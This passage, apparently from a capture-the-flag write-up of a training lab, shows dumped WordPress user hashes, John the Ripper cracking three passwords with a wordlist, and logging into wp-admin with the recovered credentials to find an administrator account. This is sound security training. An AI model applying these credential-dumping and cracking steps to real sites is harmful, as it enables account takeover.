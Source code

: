 Wordpress Users:

~~~
┌──(kali㉿kali)-[~/…/output/wekor.thm/dump/wordpress]
└─$ cat wp_users.csv     
ID,user_url,user_pass,user_email,user_login,user_status,display_name,user_nicename,user_registered,user_activation_key
1,http://site.wekor.thm/wordpress,$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.,admin@wekor.thm,admin,0,admin,admin,2021-01-21 20:33:37,<blank>
5743,http://jeffrey.com,$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10,jeffrey@wekor.thm,wp_jeffrey,0,wp jeffrey,wp_jeffrey,2021-01-21 20:34:50,1611261290:$P$BufzJsT0fhM94swehg1bpDVTupoxPE0
5773,http://yura.com,$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/,yura@wekor.thm,wp_yura,0,wp yura,wp_yura,2021-01-21 20:35:27,<blank>
5873,http://eagle.com,$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/,eagle@wekor.thm,wp_eagle,0,wp eagle,wp_eagle,2021-01-21 20:36:11,<blank>
~~~

There is an interesting information associated to the admin account: `http://site.wekor.thm/wordpress` may be the URL to Wordpress.

## Wordpress credentials

All user accounts but admin have been cracked:

~~~
┌──(kali㉿kali)-[/data/Wekor/files]
└─$ /data/src/john/run/john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                1 ⚙
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockyou          (wp_jeffrey)
xxxxxx           (wp_eagle)
soccer13         (wp_yura)
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
~~~

## Wordpress

Let's add the new virtualhost:

~~~
$ echo "10.10.207.93 site.wekor.thm" | sudo tee -a /etc/hosts
~~~

Now, browsing http://site.wekor.thm/wordpress leads to a Wordpress installation. we immediately jump to http://site.wekor.thm/wordpress/wp-admin/ and try the credentials found previously. Trying the 3 accounts reveals that `wp_yura` is actually granted administrator privileges

* `admin`: Administrator, but we haven't been able to crack the password
* `wp_eagle`: Subscriber
* `wp_jeffrey`: Subscriber
* `wp_yura`: Administrator
